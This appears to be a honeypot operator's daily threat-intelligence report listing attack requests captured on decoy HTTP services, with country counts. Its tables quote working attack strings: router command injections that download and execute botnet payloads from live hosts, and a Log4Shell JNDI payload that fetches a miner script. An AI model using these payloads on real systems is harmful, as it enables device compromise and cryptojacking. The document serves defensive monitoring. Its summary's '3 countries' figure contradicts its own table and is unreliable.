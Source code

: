 ```yaml
---
title: "Report: 2025-04-29 "
date: 2025-04-29
desciption: "Report: 2025-04-29" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-29 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 37 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 2039 requests were recorded during the day, originating from 3 different countries, with a peak of 422 requests coming from NL.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| DE               | Singapore          |
| US               | Dubai              |
| FR               | Georgia            |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                                |
|:--------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 8.152.208.190 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                          |
| 122.5.101.10  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://122.5.101.10:43721/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0            |
| 176.65.148.10 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=cd+/tmp;rm+-rf+*;wget+http://94.26.90.205/netgear.sh;chmod+777+netgear.sh;sh+netgear.sh;&curpath=/&currentsetting.htm=1; HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                   |
|----:|----------------------:|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 121 |                     4 | POST /login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                      |
| 176 |                     3 | GET /t%28%27$%7B$%7Benv:NaN:-j%7Dndi$%7Benv:NaN:-:%7D$%7Benv:NaN:-l%7Ddap$%7Benv:NaN:-:%7D//109.236.80.84:3306/TomcatBypass/Command/Base64/ZXhwb3J0IEhPTUU9L3RtcDsgY3VybCAtcyAtTCBodHRwOi8vNDUuMTU2LjIzLjEwNy9zY3JpcHRzLzR0aGVwb29sX21pbmVyLnNoIHwgYmFzaCAtczsgd2dldCAtcU8tIGh0dHA6Ly80NS4xNTYuMjMuMTA3L3NjcmlwdHMvNHRoZXBvb2xfbWluZXIuc2ggfCBiYXNoIC1z%7D%27%29 HTTP/1.1 |
| 251 |                     2 | GET /php_version.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                             |
| 256 |                     1 | GET /socket.io/1/?t=1745903763331 HTTP/1.1                                                                                                                                                                                                                                                                                                                                |
| 257 |                     1 | GET /socket.io/1/?t=1745903786082 HTTP/1.1                                                                                                                                                                                                                                                                                                                                |
| 259 |                     1 | GET /config/index?time=1745931287017251127 HTTP/1.1                                                                                                                                                                                                                                                                                                                       |
| 260 |                     1 | GET /api/bin/440393?time=1745931421787264049 HTTP/1.1                                                                                                                                                                                                                                                                                                                     |
| 264 |                     1 | GET /api/bin/440393?time=1745946950703298303 HTTP/1.1                                                                                                                                                                                                                                                                                                                     |
| 265 |                     1 | POST /api/user/binLookup?time=1745946951188903828 HTTP/1.1                                                                                                                                                                                                                                                                                                                |
| 266 |                     1 | GET /api/bin/440393?time=1745946963238662086 HTTP/1.1                                                                                                                                                                                                                                                                                                                     |
| 267 |                     1 | POST /api/user/binLookup?time=1745946963781257909 HTTP/1.1                                                                                                                                                                                                                                                                                                                |
| 279 |                     1 | \x00\x0E8\x09!'|\x15@ G\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                               |
| 281 |                     1 | POST /wordpress/wp-login.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                     |
| 303 |                     1 | \x04\x01\x01\xBB@\xE9\xA3c\x00                                                                                                                                                                                                                                                                                                                                            |
| 307 |                     1 | \x00\x0E8\xB1\xD3\xE6\x8E\xBB\x9CP\x98\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                |
| 327 |                     1 | GET /spD5 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                        |
| 328 |                     1 | GET /FaeQ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                        |
| 334 |                     1 | GET /api/bin/440393?time=1745936899442181549 HTTP/1.1                                                                                                                                                                                                                                                                                                                     |
| 335 |                     1 | POST /api/user/binLookup?time=1745936899985655652 HTTP/1.1                                                                                                                                                                                                                                                                                                                |
| 337 |                     1 | \x00\x0E82\xEB^x\x8A7\xD7A\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                            |
| 338 |                     1 | GET /api/bin/440393?time=1745947873870694936 HTTP/1.1                                                                                                                                                                                                                                                                                                                     |
| 339 |                     1 | POST /api/user/binLookup?time=1745947874658826181 HTTP/1.1                                                                                                                                                                                                                                                                                                                |
| 340 |                     1 | GET /api/bin/440393?time=1745947923286268476 HTTP/1.1                                                                                                                                                                                                                                                                                                                     |
| 341 |                     1 | POST /api/user/binLookup?time=1745947924461940368 HTTP/1.1                                                                                                                                                                                                                                                                                                                |
| 355 |                     1 | GET /config/index?time=1745931483014616739 HTTP/1.1                                                                                                                                                                                                                                                                                                                       |
| 356 |                     1 | GET /api/bin/440393?time=1745931757882064655 HTTP/1.1                                                                                                                                                                                                                                                                                                                     |
| 357 |                     1 | POST /api/user/binLookup?time=1745931758260028815 HTTP/1.1                                                                                                                                                                                                                                                                                                                |
| 360 |                     1 | \x00\x0E8%\x1C\xDD\xF4iA\x1D`\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                         |
| 361 |                     1 | GET /api/bin/440393?time=1745947012862189074 HTTP/1.1                                                                                                                                                                                                                                                                                                                     |
| 362 |                     1 | POST /api/user/binLookup?time=1745947013526381854 HTTP/1.1                                                                                                                                                                                                                                                                                                                |
| 363 |                     1 | GET /api/bin/440393?time=1745947022185089449 HTTP/1.1                                                                                                                                                                                                                                                                                                                     |
| 364 |                     1 | POST /api/user/binLookup?time=1745947022571583934 HTTP/1.1                                                                                                                                                                                                                                                                                                                |
| 369 |                     1 | GET /odinhttpcall1745903555 HTTP/1.1                                                                                                                                                                                                                                                                                                                                      |
| 371 |                     1 | GET /OdinHttpCall1745903555 HTTP/1.1                                                                                                                                                                                                                                                                                                                                      |
| 384 |                     1 | \x00\x0E8w\xAF>\x96\xD8K\xFC\x9F\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                      |
| 385 |                     1 | GET /Odin/http/call1745903555 HTTP/1.1                                                                                                                                                                                                                                                                                                                                    |
| 415 |                     1 | GET /socket.io/1/?t=1745903748980 HTTP/1.1                                                                                                                                                                                                                                                                                                                                |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   422 | NL                 |
|  1 |                   421 | US                 |
|  2 |                   234 | GB                 |
|  3 |                   176 | SC                 |
|  4 |                    97 | FR                 |
|  5 |                    83 | RU                 |
|  6 |                    81 | DE                 |
|  7 |                    68 | PL                 |
|  8 |                    66 | HK                 |
|  9 |                    62 | CH                 |
| 10 |                    51 | BE                 |
| 11 |                    36 | VN                 |
| 12 |                    35 | CN                 |
| 13 |                    32 | JP                 |
| 14 |                    23 | AU                 |
| 15 |                    21 | CA                 |
| 16 |                    17 | SG                 |
| 17 |                    15 | TR                 |
| 18 |                    10 | AO                 |
| 19 |                    10 | UA                 |
| 20 |                     9 | PT                 |
| 21 |                     7 | KR                 |
| 22 |                     7 | BG                 |
| 23 |                     7 | ZA                 |
| 24 |                     6 | GH                 |
| 25 |                     6 | VE                 |
| 26 |                     6 | GE                 |
| 27 |                     4 | IL                 |
| 28 |                     4 | IN                 |
| 29 |                     3 | ID                 |
| 30 |                     3 | BR                 |
| 31 |                     3 | MU                 |
| 32 |                     2 | RO                 |
| 33 |                     2 | ES                 |
| 34 |                     2 | MC                 |
| 35 |                     2 | LA                 |
| 36 |                     1 | PA                 |
| 37 |                     1 | PE                 |
| 38 |                     1 | RS                 |
| 39 |                     1 | AF                 |
| 40 |                     1 | HN                 |
| 41 |                     1 | AE                 |
